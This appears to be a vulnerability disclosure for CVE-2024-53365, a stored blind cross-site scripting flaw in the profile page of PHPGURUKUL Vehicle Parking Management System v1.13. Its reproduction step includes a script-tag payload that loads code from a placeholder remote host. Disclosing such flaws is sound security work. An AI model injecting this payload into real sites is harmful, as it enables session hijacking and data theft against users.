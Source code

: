 # **CVE-2024-53365: Stored Blind Cross-Site Scripting (XSS) in PHPGURUKUL Vehicle Parking Management System v1.13**

## **Description**

A stored Blind Cross-Site Scripting (XSS) vulnerability was identified in PHPGURUKUL Vehicle Parking Management System v1.13 in the `/users/profile.php` page. This vulnerability allows authenticated users to inject malicious XSS scripts into the profile name field, which can lead to code execution on the client side.

## **Steps to Reproduce (PoC)**

1. Navigate to the vulnerable URL as an authenticated user: `/users/profile.php`.
2. Modify the profile name with an XSS payload, for example: `"><script src="https://severurl"></script>`.

## **Impact**

Successful exploitation may allow attackers to execute arbitrary JavaScript on the client side, potentially leading to data theft, session hijacking, or other malicious actions.

## **Credits**

Discovered by Mohammed Athif, October 2024.

## **References**

- CVE Record: [https://www.cve.org/CVERecord?id=CVE-2024-53365](https://www.cve.org/CVERecord?id=CVE-2024-53365)
- NVD Entry: [https://nvd.nist.gov/vuln/detail/CVE-2024-53365](https://nvd.nist.gov/vuln/detail/CVE-2024-53365)

